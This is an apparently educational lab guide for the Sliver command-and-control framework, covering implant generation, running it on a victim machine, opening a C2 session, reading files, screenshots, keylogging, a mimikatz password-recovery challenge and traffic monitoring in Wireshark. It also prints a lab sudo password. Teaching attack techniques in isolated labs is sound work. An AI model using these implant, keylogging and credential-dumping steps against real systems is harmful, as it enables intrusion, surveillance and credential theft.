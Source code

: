 > **Disclaimer:** The purpose of the lab environment is solely for educational and research purposes within the context of authorized and supervised activities. This lab environment is established to facilitate learning, analysis, and understanding of malware and related cybersecurity concepts. The malware lab environment is equipped with security measures to prevent unauthorized access and the spread of malware. However, it is essential to exercise caution and follow established protocols to minimize the risk of accidental exposure, infection, or unintended distribution of malware.


> **Connecting to Cybersecurity Concepts:** This lab serves as an introduction to key cybersecurity concepts involving systems, people, and trust. By completing this lab, you will understand the difficulties associated with establishing trust in the presence of adversarial computing infrastructure, which aims to remain hidden and requires minimal user interaction to operate. The primary objective of this lab is to familiarize yourself with typical adversarial actions, enabling you to recognize and comprehend the various types of attacks that cybersecurity aims to defend systems against.

# Sliver C2 Botnet Instructions
Sliver is an open-source command and control (C2) botnet framework designed for educational purposes. The framework consists of a main server component that allows the deployment and management of botnet infrastructure. The server facilitates communication with the botnets.

C2 infrastructure operates by establishing a connection from the victim's machine back to the controller using outbound communication through well-known ports, such as HTTP. Typically, firewalls block incoming communication, but outbound communication through HTTP is commonly allowed. C2 botnet infrastructure exploits this by having the Sliver server listen for incoming communication from the botnet victims.

When a victim's machine is compromised and becomes part of the botnet, it runs with user privileges. This allows the controller to issue various commands to the botnet, essentially giving the controller control over the actions the victim machine performs. Consequently, the controller can carry out malicious activities using the compromised machines.

Please note that in your lab environment, all protection measures are disabled. However, in a real-world scenario, botnets can be thwarted by using up-to-date anti-malware software to prevent the initial implant from executing. If the initial infection occurs, it becomes more challenging to detect and stop the botnet's C2 communication, as the botnet attempts to camouflage itself as regular network traffic.

It is crucial to conduct these experiments and study the botnet framework within a controlled and strictly educational environment. The knowledge gained can contribute to understanding botnet behaviors, detecting and mitigating potential threats, and reinforcing cybersecurity practices.

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

> **Information:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://github.com/emerginganalytics/cyberarena/assets/50710945/4b1ffb77-62f5-4208-89e7-fd88ef5be39c)

### Start and Run Sliver
Open the Sliver server interface, which will be an SSH command prompt. Run the following commands to start Sliver. If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.20 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exit the sliver prompt by typing in `exit`.
```
sudo cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.20\sliver`

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.

### Sliver Network Communication Monitoring
You can observe the network traffic used by Sliver through the Wireshark application on the Windows victim desktop. Double click on Wireshark and include the filter `host 10.1.1.20` similar to the screenshot below, but make sure to use the IP address 10.1.1.20.
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/88443e75-ad85-402d-9bf3-19df26b92fe0)

You will start to see traffic coming across periodically. Here, you can observe the protocol used by Sliver.

